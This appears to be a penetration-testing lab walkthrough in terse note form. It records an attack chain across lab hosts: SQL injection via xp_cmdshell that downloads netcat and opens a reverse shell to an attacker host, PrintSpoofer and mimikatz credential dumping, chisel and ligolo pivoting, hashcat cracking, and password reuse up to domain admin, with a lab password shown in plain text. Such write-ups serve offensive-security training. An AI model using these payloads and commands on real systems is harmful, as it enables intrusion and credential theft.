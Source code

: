### 192.168.188.121

#### SQL Injection:
http://192.168.188.121/login.aspx

o' ; exec xp_cmdshell "powershell.exe wget http://192.168.45.156:8000/nc64.exe -OutFile c:\\Users\Public\\nc.exe" ; --

o' ; exec xp_cmdshell "c:\\Users\Public\\nc.exe -e cmd.exe 192.168.45.212 4445" ; --

#### priv esc

printspoofer

curl http://192.168.45.156:8000/print.exe -o print.exe

print.exe -i -c cmd.exe

executed mimikatz and found password hash of joe

#### pivot to internal network

chisel 1.8 in kali
chisel server --port 9090 --reverse  
curl http://192.168.45.184:8000/chisel1.8.exe -o chisel.exe

chisel.exe client 192.168.45.184:9090 R:socks

sudo ip tuntap add user mrjokar mode tun ligolo  
sudo ip link set ligolo up
  
./proxy -selfcert -laddr 0.0.0.0:9001
./agent -connect 192.168.45.193:9090 -ignore-cert

sudo ip route add 10.10.136.0/24 dev ligolo

### 172.16.243.11

#### Initial Access
loggedin with joe user using evil-winrm
proxychains -q evil-winrm -i 172.16.243.11 -u joe -p 'Flowers1' 

found password hashes in log file

cracked using
hashcat -m 1000 nthashes.txt /usr/share/wordlists/rockyou.txt -r cap3.rule --force


./mim.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"


### 172.16.243.83

#### Initial Access
loggedin with joe user using evil-winrm
proxychains -q evil-winrm -i 172.16.243.83 -u wario -p 'Flowers1' 

#### priv esc

changed exe in c:\developmentexecutables

sprayed password using spraypassword.ps1 and found yoshi as admin on 82

### 172.16.243.82

started rdp connection to 82 as yoshi user and found the flags

### 172.16.243.12

started rdp connection as yoshi user

escalated privilige by changing c:\TEMP\backup.exe

found password of leon using mimikatz

### 172.16.243.13

loggdin using winrm with leon (domain admin)

### 172.16.243.10

loggedin using evilwinrm with leon
found credentials.txt with password of web01


### 192.168.231.120

logged in with offsec password and credentials

switched to root with su root and offsec's pasword





